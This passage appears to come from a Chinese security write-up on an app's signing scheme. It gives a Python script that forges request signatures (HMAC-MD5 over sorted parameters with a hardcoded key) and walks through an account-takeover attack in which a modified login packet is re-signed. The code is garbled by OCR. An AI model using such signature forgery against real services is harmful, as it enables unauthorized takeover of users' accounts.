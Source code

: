 datas = params[-2]  
  
params_list = datas.split(‘&’)  
  
forparaminparams_list:  
  
key, value = param.split(‘=’, 1)  
  
value = urllib.parse.unquote(value)  
  
formatted_output[key] = value  
  
str1 = []  
  
forkey, valueinformatted_output.items():  
  
str1.append(key+value)  
  
sorted_str1 = sorted(str1, key=lambdas: s[0])  
  
str2 = “”  
  
forvainsorted_str1[::-1]:  
  
str2 += va  
  
str2 += “70BAE8B491362AB39042B77C7653199D”  
  
mac = hmac.new(key=timestamp.encode(), msg=str2.encode(),digestmod=hashlib.md5)  
  
mac.digest()  
  
str_encode = mac.hexdigest().upper()  
  
print(str_encode)  
  
这里给出数据包，就自动提取参数，然后加密。  
## 再次挖掘  
### 用户接管漏洞  
  
现在sign有了，我们最开始的任意用户绑定登录就可以拿下了。使用两个账号，实现一个正常用户登录，另一个攻击者来接管这个账号。  
  
正常用户注册登录如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj44icovdfEaXAsNWhqOYuibrd8K1Ll1S79TJqncdYyoMv1Enf4kToRVAicuKQcAvFiaoKOsklam7DDiagQ/640?wx_fmt=png&from=appmsg "")  
  
攻击者在获取手机号的时候截取数据包。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj44icovdfEaXAsNWhqOYuibrd6pRs20RsCrzb94cEhXm9YO9ffln5qF7hLY9DJU2Cm3UQT5nxz068NQ/640?wx_fmt=png&from=appmsg "")  
  
通过sessionkey来修改登录的数据包，然后通过脚本生成sign缀  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj44icovdfEaXAsNWhqOYuibrdm2Dgr7xHF6uYEZdwFtpZHibgicLMMcOzHibL3vdic6qSbLGN0y3VdfEv2A/640?wx_fmt=png&from=appmsg "")  
  
然后登录，可以直接接管正常用户的数据。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj44icovdfEaXAsNWhqOYuibrd5CQicCo4MPviaLEykbhzmxblXTJYk4FvWuf8eC0QYLE45de2Mm4qtPpw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj44icovdfEaXAsNWhqOYuibrd6Dtte3bXKAUzJPF654icicvznd55h90QaTgdgBzcbBQNibYGJhXLotB7Q/640?wx_fmt=png&from=appmsg "")  
  
